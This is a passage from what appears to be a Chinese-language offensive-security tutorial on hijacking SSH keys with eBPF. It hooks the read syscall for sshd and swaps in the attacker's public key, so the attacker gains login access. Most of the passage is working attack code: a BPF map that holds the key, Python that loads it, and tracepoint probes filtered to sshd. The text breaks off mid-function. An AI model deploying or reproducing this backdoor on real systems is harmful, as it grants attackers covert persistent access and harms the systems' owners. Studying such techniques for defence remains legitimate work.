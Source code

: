 把 ebpf 跑起来后：

可以看到，我们 hook 了一个系统调用，完成了把 buf 修改成我们的字符串，这时候加点细节和代码就可以完成 ssh 的密钥劫持。实现思路是类似的，本质上就是hook `read` 系统调用，通过把 ssh 读取的密钥替换成攻击者的公钥就完成了。

## ssh 密钥劫持

这里需要注意两点，首先因为 ebpf 能存放的字符是有限的，我们不能把自己的公钥直接放入 ebpf 中，而是需要在 python 外部完成公钥的初始化，之后把它传到一个新的映射中来完成

```
struct string_info {
    char str[600];//在 ebpf 中定义，设定公钥最多包含 600 个字符，其实也可以使用设定不同映射索引来完成公钥拼接
};
BPF_ARRAY(string_array, struct string_info, 10);//同上文提到的 hash，定义 bpf 数组
```

在外部完成字符的传入：

```
import ctypes
# 获取string_array映射
string_array = b.get_table("string_array")
# 定义字符串
long_string = "公钥填这里\n"
part = long_string
string_info = ctypes.create_string_buffer(part.encode())
string_array[ctypes.c_int(0)] = string_info
```

之后的系统调用就是小修小改：

```
TRACEPOINT_PROBE(syscalls, sys_enter_read) {
    char comm[50];
    if(bpf_get_current_comm(&comm, 50)) {
        return 0;
    }
    const char *target_comm = "sshd";
    for (int i = 0; i < 5; i++)
    {
        if (comm[i] != target_comm[i])
        {
            return 0;
        }
    }
    struct syscall_read_logging data;
    long unsigned int buff_addr = args->buf;
    size_t size = args->count;
    size_t pid_tgid = bpf_get_current_pid_tgid();
    data.buffer_addr = buff_addr;
    data.calling_size = size;
    map_buff_addrs.update(&pid_tgid, &data);
    return 0;
}
TRACEPOINT_PROBE(syscalls, sys_exit_read) {
    char comm[50];
    if(bpf_get_current_comm(&comm, 50)) {
        return 0;
    }
    size_t pid_tgid = bpf_get_current_pid_tgid();
    const char *target_comm = "sshd";
    for (int i = 0; i < 5; i++)
    {
        if (comm[i] != target_comm[i])
        {
            return 0;
        }
```